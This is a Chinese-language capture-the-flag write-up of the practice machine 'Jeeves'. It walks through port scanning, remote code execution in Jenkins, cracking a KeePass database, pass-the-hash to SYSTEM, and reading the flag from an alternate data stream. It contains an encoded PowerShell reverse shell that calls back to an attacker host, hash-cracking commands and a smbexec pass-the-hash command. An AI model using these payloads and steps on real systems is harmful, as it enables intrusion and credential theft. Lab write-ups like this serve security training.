

# README

## 信息收集

### nmap

```shell
sudo nmap -p-  --min-rate 10000 10.10.10.63
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-25 20:00 CST
Nmap scan report for bogon (10.10.10.63)
Host is up (0.13s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2
```

```shell
sudo nmap -p 80,135,445 -sC -sV 10.10.10.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-25 20:01 CST
Nmap scan report for bogon (10.10.10.63)
Host is up (0.14s latency).

PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2023-09-25T17:01:30
|_  start_date: 2023-09-25T16:16:20
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 4h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.76 seconds

```


### 50000端口

漏掉了50000端口，拿大字典`-w //Users/feng/many-ctf/my-fuzz-wordlist/directory/directory-list-2.3-medium.txt`扫描，得到/askjeeves目录，是一个jenkins，点击系统管理，进入脚本命令行里面可以rce。

```shell
println "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA0ACIALAAzADkANQAwADIAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA".execute().text
```

反弹shell的字符串拿https://www.revshells.com/生成。


```shell
PS C:\Users\kohsuke\Desktop> whoami
jeeves\kohsuke
```

## kohsuke用户到Administrator

环境没有域且只有这一个用户，在Documents文件夹下面拿到了CEH.kdbx，但是比较难传过来：

```shell
copy C:\users\kohsuke\Documents\CEH.kdbx .\workspace\test1
```

然后下载下来：




要破解需要下载：

```shell
brew install john-jumbo
export PATH=/opt/homebrew/Cellar/john-jumbo/1.9.0_1/share/john:$PATH
source ~/.zshrc
```

然后破解主密码：

```shell
keepass2john CEH.kdbx  >CEH.kdbx.hash
#因为hash带[username]:，所以要加--user
hashcat -m 13400 CEH.kdbx.hash /Users/feng/many-ctf/rockyou.txt --force --user
```

得到密码moonshine1，有了主密码就可以打开库：

```shell
kpcli --kdb CEH.kdbx
#列出所有密码
find .
#打印第0个密码
show -f 0
```

重要的是第0个密码：

```shell
kpcli:/> show -f 0

 Path: /CEH/
Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL:
Notes:
```

这串aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00猜测是NTLM hash，尝试PTH成功：

```shell
python3.10 smbexec.py Administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.11.0 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

但是读不到flag，desktop目录下有一个hm.txt：

```powershell
C:\Windows\system32>type c:\users\administrator\desktop\hm.txt
The flag is elsewhere.  Look deeper.
```

查看备用流：

```powershell
C:\Windows\system32>dir /R c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of c:\users\administrator\desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,617,782,272 bytes free
```


NTFS流全称为NTFS交换数据流。一个流的全名包括一下三个部分<文件名>:<流名称>:<流类型>

读取流内容：

```shell
more < c:\users\administrator\desktop\hm.txt:root.txt:$DATA

 powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```

